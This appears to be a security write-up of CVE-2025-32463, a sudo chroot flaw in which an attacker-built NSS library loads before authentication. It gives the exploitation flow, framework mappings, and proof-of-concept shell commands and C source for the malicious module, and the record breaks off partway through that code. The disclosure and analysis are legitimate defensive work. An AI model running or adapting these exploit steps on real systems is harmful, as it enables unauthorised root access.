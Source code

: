 ## Exploitation Flow
- Attacker prepares chroot with:
  - `etc/nsswitch.conf` prioritizing `myhack` NSS service.
  - A malicious shared object `libnss_myhack.so.2` exporting minimal NSS stubs, with constructor/destructor.
- Attacker invokes `sudo -R <chroot> ...` (no successful auth required).
- sudo 1.9.17 pivots/chroots into attacker directory during pre-auth command/path/policy resolution.
- glibc resolves NSS per the chrooted `nsswitch.conf` and `dlopen()`s `libnss_myhack.so.2` from attacker-controlled library paths.
- Constructor executes inside chroot; upon unpivot and process teardown, destructor runs in the real root context, enabling writes to host filesystem as root pre-auth.

## Framework Mappings
From CVE-2025-32463_framework_mappings:
- CWE: CWE-829 (Inclusion of Functionality from Untrusted Control Sphere), CWE-426 (Untrusted Search Path)
- CAPEC: CAPEC-251 (Local Code Inclusion)
- ATT&CK: T1068 (Exploitation for Privilege Escalation), T1129 (Shared Modules), T1574.006 (Hijack Execution Flow: Dynamic Linker Hijacking)

## Proof of Concept (reproduced)
Exact commands (sudo_cve_2025_32463_poc_commands):

```bash
# 1) Verify version and attempt non-interactive run (expected to prompt/deny)
sudo -V | head -n1
sudo -n true || true

# 2) Prepare chroot directory
CH=/tmp/chrootpwn
mkdir -p "$CH"/etc "$CH"/tmp
mkdir -p "$CH"/lib "$CH"/lib64 "$CH"/usr/lib "$CH"/lib/x86_64-linux-gnu
printf "passwd: myhack files\nshadow: myhack files\ngroup: myhack files\nhosts: files myhack\n" > "$CH"/etc/nsswitch.conf
touch "$CH"/etc/passwd "$CH"/etc/group "$CH"/etc/shadow

# 3) Write malicious NSS module source
cat > /tmp/libnss_myhack.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <sys/stat.h>
#include <pwd.h>
#include <grp.h>
#include <nss.h>

static void write_file(const char *path, const char *msg) {
    int fd = open(path, O_CREAT|O_WRONLY|O_TRUNC, 0644);
    if (fd >= 0) {
        write(fd, msg, strlen(msg));
        close(fd);
    }
}

__attribute__((constructor))
static void my_ctor(void) {
    // Executed while sudo is pivoted into $CH
    write_file("/tmp/nss_poc_constructor", "constructor ran\n");
}
```